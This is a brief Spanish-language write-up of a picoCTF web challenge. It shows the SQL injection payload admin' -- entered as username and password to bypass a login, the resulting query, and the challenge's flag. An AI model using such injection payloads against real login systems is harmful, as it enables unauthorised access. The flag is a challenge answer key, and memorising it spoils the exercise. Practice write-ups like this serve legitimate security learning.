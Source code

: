 ## Objetivo

There is a website running at `https://jupiter.challenges.picoctf.org/problem/33850/` ([link](https://jupiter.challenges.picoctf.org/problem/33850/)) or http://jupiter.challenges.picoctf.org:33850. Do you think you can log us in? Try to see if you can login!
## Solución

Para este desafío inyectamos un comando de SQL en el nombre de usuario y contraseña
admin'--


```
username: admin' --
password: admin' --
SQL query: SELECT * FROM users WHERE name='admin' --' AND password='admin' --'

# Logged in!

Your flag is: picoCTF{s0m3_SQL_f8adf3fb}
```

## Notas adicionales

## Referencias


